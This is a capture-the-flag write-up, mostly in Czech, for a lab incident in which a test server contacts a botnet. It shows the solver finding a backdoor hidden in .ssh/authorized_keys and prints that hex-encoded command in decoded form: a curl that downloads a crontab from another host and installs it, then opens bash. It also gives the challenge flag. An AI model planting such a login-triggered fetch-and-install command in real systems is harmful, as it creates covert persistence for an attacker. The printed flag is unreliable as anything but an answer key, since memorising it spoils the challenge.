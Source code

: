 # Leonidas (2)

## Zadání

Hi, TCC-CSIRT analyst,

some suspicious communication between the device srv-test23.cypherfix.tcc (10.99.24.23, 2001:db8:7cc::24:23) in our constituency and the C2 botnet Leonidas300 has started appearing in our IDS. The user and device administrator in one person has no idea how this is possible but refuses to turn off the important testing device (as a VIP, he evidently can afford to complicate the investigation). However, he is willing to provide ssh key for a test user to examine the device.

Your task is to analyze the incident and determine what is happening on the device, mainly what causes the occasional detection of botnet communication.

* [Download the ssh key for user 'testuser'](ssh_key.zip)
 (sha256 checksum: `e5d56147ea7f2c38a01a09ec144e7daba49232167e272da99f6d33af8d672397`)
* The device is available at `srv-test23.cypherfix.tcc`.
* The IDS interface is available at <http://ids.cypherfix.tcc>.

See you in the next incident!

## Nápovědy (Hints)

1. The filesystem has been turned to read-only.
1. IDS evaluate new events each minute and show data 60 minutes to the past.

## Řešení

Stažený ZIP soubor obsahuje privátní SSH klíč.

Skenování portů `nmap srv-test23.cypherfix.tcc -p-` se zobrazí jediný otevřený port.

```text
PORT   STATE SERVICE
22/tcp open  ssh
```

Použijeme privátní klíč ze ZIP archivu a připojíme se pomocí SSH k serveru.

`ssh -i testuser testuser@srv-test23.cypherfix.tcc`

Na IDS portálu se objeví záznam při každém přihlášení k SSH serveru s IP adresou 10.99.24.23, což je IP adresa srv-test23.cypherfix.tcc.

V souboru `.ssh/authorized_keys` je zajímavý text.

```text
echo 6375726c202d73202d4120274c656f6e69646173212049206861766520707265706172656420627265616b6661737420616e6420617465206865617274696c792e2e2e20466f7220746f6e696768742c2077652064696e6520696e2068656c6c2121205530633564324a48624442615657784655465661545646565a44645a5747513057564d784e4531556248424d565752445932706a64475177526b7057626a41392720687474703a2f2f31302e39392e32342e32343a38302f2e63726f6e202d6f202e63726f6e3b2063726f6e746162202e63726f6e20323e202f6465762f6e756c6c3b2f62696e2f62617368 | xxd -r -ps
```

který se dekóduje na

```text
curl -s -A 'Leonidas! I have prepared breakfast and ate heartily... For tonight, we dine in hell!! U0c5d2JHbDBaVWxFUFVaTVFVZDdZWGQ0WVMxNE1UbHBMVWRDY2pjdGQwRkpWbjA9' http://10.99.24.24:80/.cron -o .cron; crontab .cron 2> /dev/null;/bin/bash
```

Z řetězce `U0c5d2JHbDBaVWxFUFVaTVFVZDdZWGQ0WVMxNE1UbHBMVWRDY2pjdGQwRkpWbjA9` po dekódování pomocí Base64 získáme další Base64 řetězec `SG9wbGl0ZUlEPUZMQUd7YXd4YS14MTlpLUdCcjctd0FJVn0=` a po jeho dekódování získáme FLAG.

## Flag

`FLAG{awxa-x19i-GBr7-wAIV}`
